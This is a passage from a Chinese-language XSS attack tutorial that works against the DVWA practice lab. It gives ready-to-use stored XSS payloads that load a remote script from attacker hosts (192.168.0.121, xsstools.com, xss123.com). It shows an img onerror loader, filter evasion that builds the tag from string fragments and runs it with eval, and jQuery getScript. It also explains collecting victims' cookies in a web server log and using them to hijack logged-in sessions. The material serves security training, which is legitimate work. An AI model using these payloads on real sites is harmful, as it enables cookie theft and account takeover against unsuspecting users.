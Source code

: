 实验验证：  
在 kali 里面打开一个小型 web 服务 ，命令：sudo python -m SimpleHTTPServer 80。  
登陆 dvwa 后，在存储型XSS漏洞靶场位置输入 xss 代码，插入之后，受害者访问该网页就会把它的 cookie 发送到 kali 的 web 服务
上，查看日志就能得到 cookie。  
只要浏览器加载了xss.js这个文件，就会运行这个脚本，就可以把当前登录用户的cookie发送到攻击者指定的服务器。  

## 0x10 加载远程攻击payload
常见payload：  
```html
注意 网站采用的协议。
<script src="http://192.168.0.121/xss.js"></script>
<script src="https://192.168.0.121/xss.js"></script>
自动选择协议
<script src=//192.168.0.121/xss.js></script>
```
图片创建加载链接：
```html
<img src=''
onerror=document.body.appendChild(document.createElement('script')).src='//192.168.0.110/xss.js'>
```
字符并接：  
这种一般是输入的字符有限制的时候使用
```html
<script>z='document.'</script>
<script>z=z+'write("'</script>
<script>z=z+'<script'</script>
<script>z=z+' src=ht'</script>
<script>z=z+'tp://www.'</script>
<script>z=z+'xsstools'</script>
<script>z=z+'.com/a'</script>
<script>z=z+'mER></sc'</script>
<script>z=z+'ript>")'</script>
<script>eval(z)</script>
```
jQuery加载：  
```html
<script>$.getScript("//www.xsstools.com/amER");</script>
```

## 0x11 搭建XSS漏洞利用平台
xss 漏洞利用平台，集合了 xss 攻击的多种方法，很方便快捷的利用 xss 漏洞，生成攻击代码。  
该平台涉及到：设置网站伪静态，然后测试伪静态。  
创建攻击模块，选择 keepsession 如果攻击成功后，cookie 一直会请求刷新，cookie一直请求，不会掉。  
将恶意代码插入存在漏洞的页面，当用户访问有问题的网页时，浏览器会加载恶意的攻击代码，会获取当前受害者访问网站的 cookie 发送到攻击者的服务器里。  
在留言处插入 xss 恶意代码：  
```html
</textarea>'"><script src=http://www.xss123.com/eciAKj?1623635663></script>
```
用户登录后，访问带有恶意代码的网页，盗取 cookie 发送到攻击者服务端。  
攻击者盗取 cookie 后 访问该页面，修改 cookie 即可登录有验证的后台。  

## 0x12 XSS 绕过
